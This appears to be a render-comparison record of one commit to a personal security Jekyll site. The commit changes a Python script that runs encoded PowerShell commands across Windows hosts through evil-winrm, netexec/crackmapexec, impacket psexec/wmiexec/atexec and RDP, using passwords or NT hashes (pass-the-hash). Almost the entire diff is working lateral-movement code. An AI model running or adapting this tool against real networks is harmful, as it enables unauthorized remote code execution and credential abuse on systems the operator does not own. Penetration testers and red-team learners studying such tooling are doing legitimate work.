

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from misc_scripts/exec_across_windows.py.md, in a window 1280 px wide and 1400 px high, scrolled down 3839 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
script update

```diff
--- a/misc_scripts/exec_across_windows.py.md
+++ b/misc_scripts/exec_across_windows.py.md
@@ -20,7 +22,9 @@
 OUTPUT = False
 
 VALID_TOOLS = ["winrm", "psexec", "ssh", "wmiexec", "atexec", "smbexec", "rdp"]
-NXC_TOOLS = ["winrm", "smbexec", "rdp"]
+
+IMPACKET_PREFIX = "impacket-"  # or "" for .py suffix
+NXC_CMD = "nxc"
 
 print_lock = threading.Lock()
 
@@ -141,6 +145,20 @@
         return "winrm"
     return name
 
+# tricky, tricky exegol
+def find_evil_winrm():
+    if shutil.which("evil-winrm"):
+        return "evil-winrm"
+
+    base = "/usr/local/rvm/gems"
+    for d in os.listdir(base):
+        if d.endswith("@evil-winrm"):
+            p = f"{base}/{d}/wrappers/evil-winrm"
+            if os.path.isfile(p):
+                return p
+
+    raise FileNotFoundError("evil-winrm not found")
+
 def parse_tools_list(tools_str):
     """Parse comma-separated list of tools, validating each one."""
     tools = []
@@ -183,19 +201,20 @@
                 f"{cmd} {user}:{credential}@{target} 'powershell -enc {b64}'")
 
     if tool == "smbexec":
-        return (f"nxc smb {target} -H {hash_val} -u {user} -X 'powershell -enc {b64}' --exec-method smbexec{nxc_output_flag}"
+        return (f"{NXC_CMD} smb {target} -H {hash_val} -u {user} -X 'powershell -enc {b64}' --exec-method smbexec{nxc_output_flag}"
                 if use_hash else
-                f"nxc smb {target} -p {credential} -u {user} -X 'powershell -enc {b64}' --exec-method smbexec{nxc_output_flag}")
+                f"{NXC_CMD} smb {target} -p {credential} -u {user} -X 'powershell -enc {b64}' --exec-method smbexec{nxc_output_flag}")
 
+    # yes I know nxc has a winrm module which can oneshot commands, but evil-winrm has proved more robust
     if tool == "winrm":
-        return (f"nxc winrm {target} -H {hash_val} -u {user} -X 'powershell -enc {b64}'{nxc_output_flag}"
+        return (f"echo 'powershell -enc {b64}' | {find_evil_winrm()} -i {target} -u {user} -H {hash_val}"
                 if use_hash else
-                f"nxc winrm {target} -p {credential} -u {user} -X 'powershell -enc {b64}'{nxc_output_flag}")
+                f"echo 'powershell -enc {b64}' | {find_evil_winrm()} -i {target} -u {user} -p {credential}")
 
     if tool == "rdp":
-        return (f"echo 'y' | nxc rdp {target} -u {user} -H {hash_val} -X 'powershell -enc {b64}'{nxc_output_flag}"
+        return (f"echo 'y' | {NXC_CMD} rdp {target} -u {user} -H {hash_val} -X 'powershell -enc {b64}'{nxc_output_flag}"
                 if use_hash else
-                f"echo 'y' | nxc rdp {target} -u {user} -p {credential} -X 'powershell -enc {b64}'{nxc_output_flag}")
+                f"echo 'y' | {NXC_CMD} rdp {target} -u {user} -p {credential} -X 'powershell -enc {b64}'{nxc_output_flag}")
 
     raise Exception(f"Unknown tool: {tool}")
 
@@ -206,6 +225,10 @@
         # Can't pass the hash with SSH
         if tool == "ssh" and is_nthash(credential):
             safe_print(f"  [-] Skipping SSH for {ip}: cannot pass the hash.")
+            continue
+
+        if tool == "rdp" and NXC_CMD == "crackmapexec":
+            safe_print(f"  [-] Skipping RDP for {ip}: crackmapexec does not support running commands via RDP.")
             continue
 
         cmd = build_cmd(tool, user, ip, credential, command, show_output)
@@ -226,7 +249,7 @@
             safe_print(f"  [-] For {ip}: {tool} timed out.")
             continue
 
-        # psexec can have [-] if some shares are writeable and others arent
+        # psexec can have "[-]" in stdout if some shares are writeable and others aren't
         if tool == "psexec":
             if "Found writable share" in out:
                 if "Stopping service" in out:
@@ -256,7 +281,8 @@
                 safe_print(f"  [-] For {ip}: {tool} failed.")
             continue
 
-        if rc == 0:
+        # one-shotting using evil-winrm results in a return code of 1
+        if rc == 0 or (tool == "winrm" and rc == 1 and "NoMethodError" in out):
             return (tool, out, cmd)
 
         safe_print(f"  [-] For {ip}: {tool} failed.")
@@ -335,27 +361,36 @@
 
     return args
 
-IMPACKET_PREFIX = "impacket-"  # or "" for .py suffix
+
 
 def check_dependencies():
     """Check if required tools are installed."""
     global IMPACKET_PREFIX
-
-    # Check nxc
-    result = subprocess.run("nxc -h", shell=True, capture_output=True)
-    if result.returncode != 0:
-        print("[-] nxc not found. Install with: pipx install netexec")
-        sys.exit(1)
+    global NXC_CMD
 
     # Check impacket (either impacket-psexec or psexec.py)
-    r1 = subprocess.run("impacket-psexec --help", shell=True, capture_output=True)
-    r2 = subprocess.run("psexec.py --help", shell=True, capture_output=True)
-    if r1.returncode == 0:
+    r1 = shutil.which("impacket-psexec")
+    r2 = shutil.which("psexec.py")
+    if r1:
         IMPACKET_PREFIX = "impacket-"
-    elif r2.returncode == 0:
+    elif r2:
         IMPACKET_PREFIX = ""
     else:
         print("[-] impacket not found. Install with: pipx install impacket")
+        sys.exit(1)
+
+    # Check nxc/crackmapexec
+    r1 = shutil.which("nxc")
+    r2 = shutil.which("netexec")
+    r3 = shutil.which("crackmapexec")
+    if r1:
+        NXC_CMD = "nxc"
+    elif r2:
+        NXC_CMD = "netexec"
+    elif r3:
+        NXC_CMD = "crackmapexec"
+    else:
+        print("[-] netexec not found. Install with: pipx install git+https://github.com/Pennyw0rth/NetExec")
         sys.exit(1)
 
 def impacket_cmd(tool):
```
Also changed, not shown: other parts of misc_scripts/exec_across_windows.py.md (+5 -1 lines), markdown/ADPivoting.md (+6 -0 lines).
